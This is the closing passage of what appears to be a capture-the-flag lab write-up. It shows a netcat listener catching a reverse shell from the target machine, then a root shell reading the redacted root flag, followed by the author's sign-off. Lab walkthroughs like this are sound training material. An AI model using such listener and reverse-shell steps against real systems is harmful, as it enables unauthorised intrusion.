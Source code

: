   ```bash
  $ nc -lnvp 4443
  listening on [any] 4443 ...
  connect to [10.10.10.10] from (UNKNOWN) [10.10.10.234] 16349
  # cd /root
  # cat root.txt
  <redacted>
  ```

I hope you guys have enjoyed it!

See you at the next post :smile:
